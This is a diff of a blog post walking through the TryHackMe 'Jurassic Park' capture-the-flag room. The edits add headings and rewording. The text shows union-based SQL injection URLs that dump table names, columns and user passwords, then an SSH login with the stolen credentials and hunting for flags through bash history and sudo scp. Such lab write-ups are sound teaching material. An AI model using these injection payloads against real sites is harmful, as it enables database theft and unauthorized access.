

corrections

Changed region(s): [[0.2698, 0.8649, 0.5695, 0.9459]]

diff --git a/_posts/2021-01-28-ctf-thm-jurassic-park.md b/_posts/2021-01-28-ctf-thm-jurassic-park.md
@@ -42,7 +42,7 @@ While we wait for the box to deploy let's have a quick look at the room descript
 We have a few clues here to help us know where to start:
 
 1. There is a web application running on a port somewhere, make sure we find that with Nmap.
-2. There are 4 flags hidden around the file system, make sure we look for hidden files with *ls -lsa*
+2. There are 5 flags hidden around the file system, make sure we look for hidden files with *ls -lsa*
 3. It mentions Dennis in italics, is this a hint at a user?
 
 With the above in mind, let's start with Nmap to check for open ports:
@@ -78,6 +78,8 @@ We find a simple page with a link to a shop, let's try that:
 The shop has three packages we can buy, let's go the for best and see what gold gives us:
 
 ![jurassic-gold](/assets/images/2021-01-27-22-11-34.png)
+
+## SQL Injection
 
 We have a static webpage with nothing obvious on it. However, we see in the address bar that the site is using parameters to pull the content of each page from a database.
 
@@ -119,7 +121,7 @@ http://10.10.9.16/item.php?id=5 union select 1,group_concat(table_name),3,4,5 fr
 
 ![jurassic-tables](/assets/images/2021-01-27-22-36-45.png)
 
-We have two tables, users and items. Let's look at the users table first, and see what columns are in it:
+We have two tables, users and items. Looking at the users table, we see two columns are in it:
 
 ```text
 http://10.10.9.16/item.php?id=5 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema = database() and table_name = "users"
@@ -137,9 +139,11 @@ http://10.10.9.16/item.php?id=5 union select 1,password,3,4,5 from users
 
 So we have the password, but where do we use it? And what could the associated username be?
 
-From the Nmap scan we know there is ssh on port 22. From the developer on ?id=5 we found a possible user dennis. And from the user table we found a password.
+## Gaining Access
 
-So let's try it and see what we find:
+From the Nmap scan we know there is ssh on port 22. From the developer on ?id=5 we found a possible user Dennis. And from the user table we found a password.
+
+Let's use the credentials we've discovered and try to ssh in as dennis:
 
 ```text
 kali@kali:~$ ssh dennis@10.10.9.16
@@ -158,7 +162,7 @@ Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-1072-aws x86_64)
 dennis@ip-10-10-9-16:~$ 
 ```
 
-Success! We have been able to log in to ssh as dennis.
+Excellent, we are able to log in as dennis.
 
 First let's look in our current directory. Using ls with the -a parameter shows all files, including hidden ones:
 
@@ -177,12 +181,14 @@ dennis@ip-10-10-9-16:~$ ls -lsa
 8 -rw------- 1 dennis dennis 4350 Feb 16  2019 .viminfo
 ```
 
+## Flag 1
+
 We've found flag 1, let's cat it and register on the thm site:
 
 ```text
 dennis@ip-10-10-9-16:~$ cat flag1.txt
 Congrats on finding the first flag.. But what about the rest? :O
-(HIDDEN)
+<<HIDDEN>>
 ```
 
 There's also a file called test.sh, let's look at that:
@@ -195,11 +201,13 @@ cat /root/flag5.txt
 
 We have the location of flag 5, but can't get to that until we are root.
 
+## Flag 3
+
 Let's keep looking, another file worth checking is bash_history in case it hasn't been cleared:
 
 ```text
 dennis@ip-10-10-9-16:~$ cat .bash_history 
-Flag3:(HIDDEN))
+Flag3:<<HIDDEN>>
 sudo -l
 sudo scp
 scp
@@ -240,7 +248,9 @@ vim ~/.bash_history
 
 Excellent, in there we find flag 3, plus scp has been used a lot, mostly with sudo to copy the flag5.txt file to another host.
 
-This seems suspicious, let's have a look what sudo permissions dennis has:
+## Flag 5
+
+The use of scp seems suspicious, let's have a look what sudo permissions dennis has:
 
 ```text
 dennis@ip-10-10-9-16:~$ sudo -l
@@ -269,8 +279,10 @@ Let's check out the flag:
 
 ```text
 kali@kali:~$ cat flag5.txt
-(HIDDEN)
+<<HIDDEN>>
 ```
+
+## Flag 2
 
 After submitting that flag on the thm site, we need to look for the last one, flag 2.
 
@@ -345,7 +357,7 @@ It's owned by root but world readable. So no need to scp it across, we can just 
 
 ```text
 dennis@ip-10-10-9-16:/home/ubuntu$ cat /boot/grub/fonts/flagTwo.txt
-(HIDDEN)
+<<HIDDEN>>
 ```
 
 That was our last flag, for some reason there is no flag 4!
